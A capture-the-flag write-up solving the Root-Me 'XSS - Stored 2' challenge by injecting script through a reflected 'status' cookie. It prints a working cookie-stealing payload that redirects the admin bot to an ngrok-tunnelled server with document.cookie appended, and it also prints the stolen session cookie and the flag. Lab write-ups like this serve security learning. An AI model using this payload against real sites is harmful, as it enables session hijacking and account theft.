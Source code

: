 # XSS - Stored 2

**Point**: 50 Points 

**Description**: Steal the administrator session’s cookie and go in the admin section.

## Solution:

There's a form for submitting "title" and "message" like the previous "XSS Stored".

<p align="center"><img width="450px" height="300px" src="https://user-images.githubusercontent.com/48288606/159105615-02b0859d-a253-4581-a1f0-308f5b7fce31.png"/></p>

 The point in this chall is how to find out the XSS injection point. I try many kind of payload and put in **title** and **message** box but no payload was worked. This also happen when we get into admin page. 
 
 There is nothing different between **admin** page and **"normal"** page. The **status** always be the same fixed value: `status: invite`. We also realizea parameter name "section" in URL, but with the same result, it doesn't work for injecting. 
 
<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159106283-2b92843e-3029-49c7-976a-57b353b5e449.png" /></p>

 Let's try to figure out how server knows our status. Open "Developer Tools" -> Network -> `?section=admin` -> Request Headers. Notice the cookie value:
 
<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159106471-08150bf5-b6b5-48e3-80d4-1ddd9a13a3b1.png" /></p>

The cookie `status` is set to **invite** in both '?section=admin' and without it. So maybe it the reason why the displaying **status** is always "invite". Try to change this cookie value

In "Developer Tools", move to "Application" -> Storage -> Cookie -> `http://challenge01.root-me.org/` (Our challeng cookie, there's is another cookie is default from "root-me.org"). Change **status** into some string like **khangtictoc** and reload the page:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159106680-633a3528-07a6-4244-b64a-5bcf3c631210.png" /></p>

So we can inject string into this location. Now try to escape and use a little DOM-based XSS to bypass it , payload: `"><script>alert(1)</script>`

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159106743-5170454c-cd7f-4d88-a4d2-9b70a7945a44.png" /></p>

Yeah!! And that's is where the XSS vulnerability appears. 
 
**NOTE: Be aware of interval message display by the server. The message is triggered and that is when the back-end robot read our message and load our script and respond the admin cookie to us**
 
<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159106356-2bba56d0-a5be-4bc1-bdfe-c54af020f1fd.png" /></p>

Now this proves XSS can be in action. Now we have to get the **cookie** from the victim, we ought to delivery all collected cookie from victim (administrator) to a specific server that we take control. Payload will look like this:

```javascript
"><script>document.location="{your_server_link_site}?cookie=" + document.cookie</script>
```

Let's take action step-by-step:

1. Run PHP server with **localhost** and optional **port** without any content: `php -S localhost:4444 `

2. Public our server by tunneling. I use **ngrok** to serve this purpose:
   - Connect to ngrok with your account token: `ngrok authtoken {your_account_token}`
   - Tunneling our local site to public network with port specified above: `ngrok http 4444`
   - Get the public link we get from ngrok and create with payload above.
   ![image](https://user-images.githubusercontent.com/48288606/159106994-21909020-ea71-4a22-a956-ff6d56cda713.png)

3. Send our payload to cookie **status** and reload page:
```javascript
"><script>document.location="http://7a5d-113-161-77-200.ngrok.io?cookie=" + document.cookie</script>
``` 
<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159107059-9e3803b5-18e0-4925-89e3-5583879714f8.png" /> </p>

This show us successfully in directing to our server.

After a not-short time, the bot from server that i take note above will respond and its cookie from admin will show up in log server. 

**NOTE: While there's no admin cookie respond from server, we get in page, the page always loads our message including malicious cookie and directs to our page. Until that, just wait.**

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159107210-4fe8fa6e-8c0f-4e6f-964e-a0ed2cfc2406.png" /> </p>

The cookie is : **SY2USDIH78TF3DFU78546TE7F**. When the bot got the message, which is loaded with our malicious code from cookie; the bot would automatically clear all sent message and start a new session a new page Now with the description "Steal the administrator session’s cookie and go in the admin section." , we just have to get in page with given **ADMIN_COOKIE** 

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159107511-526b091f-bc20-4223-9206-bc118f007afd.png" /> </p>

Reload the page:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159107453-84a773ff-8aed-4a2d-ad03-8085a55dee08.png" /> </p>

FLag: **E5HKEGyCXQVsYaehaqeJs0AfV**

